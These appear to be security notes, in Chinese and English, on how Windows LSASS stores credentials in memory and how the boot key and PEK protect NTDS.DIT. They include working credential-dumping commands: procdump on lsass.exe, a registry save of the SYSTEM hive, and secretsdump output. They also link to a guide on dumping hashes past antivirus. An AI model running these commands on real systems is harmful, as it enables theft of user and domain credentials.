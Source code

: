 #### lsass进程
The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalf of users with active Windows sessions. This allows users to seamlessly access network resources, such as file shares, Exchange Server mailboxes, and SharePoint sites, without re-entering their credentials for each remote service.  
LSASS can store credentials in multiple forms, including:  

* Reversibly encrypted plaintext  
* Kerberos tickets (TGTs, service tickets)  
* NT hash  
* LM hash  

If the user logs on to Windows by using a smart card, LSASS will not store a plaintext password, but it will store the corresponding NT hash value for the account and the plaintext PIN for the smart card. If the account attribute is enabled for a smart card that is required for interactive logon, a random NT hash value is automatically generated for the account instead of the original password hash. The password hash that is automatically generated when the attribute is set does not change.  
If a user logs on to Windows with a password that is compatible with LM hashes, this authenticator will be present in memory.  
The storage of plaintext credentials in memory cannot be disabled, even if the credential providers that require them are disabled.  
The stored credentials are directly associated with the LSASS logon sessions that have been started since the last restart and have not been closed. For example, LSA sessions with stored LSA credentials are created when a user does any of the following:  

* Logs on to a local session or RDP session on the computer
* Runs a task by using the RunAs option
* Runs an active Windows service on the computer
* Runs a scheduled task or batch job
* Runs a task on the local computer by using a remote administration tool

获取方法：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
具体获取方法参见[绕过杀软导出域内用户hash和明文密码](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash和明文密码/)  



###　凭证读取方法
#### 凭证加解密用到的key  
system key(Some sources refer to the system key as the boot key, or the startup key)可以通过如下方式获取：  
```
reg.exe save hklm\system c:\system.save

secretsdump.py  -system system.save Local
Impacket v0.9.18-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x6614a6bef1ceaaxxxxxxxxxxxbcd257e
[*] Cleaning up... 
```

PEK(Password Encryption Key) is used to encrypt data stored in NTDS.DIT. This key is the same across the whole domain, which means that it is the same on all the domain controllers. The PEK itself is also stored in the NTDS.DIT in an encrypted form. The PEK is encrypted with the BOOTKEY which is different on all domain controllers (and in fact on all computers in the domain).  
